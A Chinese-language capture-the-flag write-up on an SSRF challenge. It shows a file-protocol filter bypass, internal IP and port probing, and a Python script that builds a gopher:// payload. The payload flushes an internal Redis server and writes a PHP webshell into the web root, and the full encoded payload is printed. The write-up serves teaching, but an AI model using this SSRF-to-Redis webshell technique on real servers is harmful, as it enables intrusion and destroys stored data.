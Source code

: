 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-20
---
```


## 思路

1. 打开网页显示如下：

   <img src="images/image-20210120160201453.png" alt="image-20210120160201453" width="50%;" />

   F12后看到有提示`?secret`，则在url中加上`?secret`，可以看到如下信息，发现三个IP。

   <img src="images/image-20210120160353817.png" alt="image-20210120160353817" width="50%;" />

2. 该题将输入url传入后端，题目也提示了IP，猜测利用ssrf漏洞。

   当输入127.0.0.1时，页面上会显示别这样，说明后端会对输入的内容进行检查。

3. 尝试获取index.php源码，`file:%20///var/www/html/index.php`或`file:/var/www/html/index.php`绕过对file协议的过滤。

   分析下面源码，发现index.php过滤了file和dict协议，但没有过滤http和gopher协议。

   因此我们可以使用http来探测内网中存活的IP，以及对应开放的端口，从而猜测对应使用什么服务，查找有没有漏洞可以利用。

   ![image-20210120161502410](images/image-20210120161502410.png)

4. 利用burpsuite进行测试

   <img src="images/image-20210120162327366.png" alt="image-20210120162327366" width="60%;" />

   最后的结果为：

   <img src="images/image-20210120162607222.png" alt="image-20210120162607222" width="50%;" />

   10.69.29.5对应页面为：

   <img src="images/image-20210120162844104.png" alt="image-20210120162844104" style="zoom:50%;" />

   10.69.29.6对应页面为：

   

   <img src="images/image-20210120163014199.png" alt="image-20210120163014199" width="50%;" />

   10.69.29.7对应页面为：

   <img src="images/image-20210120163100619.png" alt="image-20210120163100619" width="67%;" />

   10.69.29.11对应页面为：

   <img src="images/image-20210120164051615.png" alt="image-20210120164051615" width="50%;" />

   这个页面提示端口，对该IP的其他端口再进行探测：

   <img src="images/image-20210120164340440.png" alt="image-20210120164340440" width="60%;" />

   另外把线程数调少，避免出现429。

<img src="images/image-20210120164455040.png" alt="image-20210120164455040" width="40%;" />



5. 扫描出来发现端口6379和80开放。

   6379是redis端口，根据[GKCTF2020 EZ三剑客-EzWeb]([GKCTF2020]EZ三剑客-EzWeb.md)提过的四种利用方式：

   1. 可写webshell
   2. 写ssh公钥
   3. 写crontab反弹shell
   4. redis主从复制rce

   本题可以尝试写入webshell，利用gopher协议写入shell.php。

   生成payload的脚本如下：

   ```python
   import urllib
   protocol="gopher://"
   ip="10.69.29.11"      // 运行有redis的主机ip
   port="6379"
   shell="\n\n<?php system(\"cat /flag\");?>\n\n"
   filename="shell.php"
   path="/var/www/html"
   passwd=""
   cmd=["flushall",
   	 "set 1 {}".format(shell.replace(" ","${IFS}")),
   	 "config set dir {}".format(path),
   	 "config set dbfilename {}".format(filename),
   	 "save"
   	 ]
   if passwd:
   	cmd.insert(0,"AUTH {}".format(passwd))
   payload=protocol+ip+":"+port+"/_"
   def redis_format(arr):
   	CRLF="\r\n"
   	redis_arr = arr.split(" ")
   	cmd=""
   	cmd+="*"+str(len(redis_arr))
   	for x in redis_arr:
   		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
   	cmd+=CRLF
   	return cmd
   
   if __name__=="__main__":
   	for x in cmd:
   		payload += urllib.quote(redis_format(x))
   	print payload
   
   ```

6. 生成的payload为：

   `gopher://10.69.29.11:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2432%0D%0A%0A%0A%3C%3Fphp%20system%28%22cat%20/flag%22%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A`

   传入url后，再提交`http://10.69.29.11/shell.php`，即可获得flag。

## 总结

- 利用http协议探测内网开放的IP和端口。
- redis+ssrf，利用gopher协议写入webshell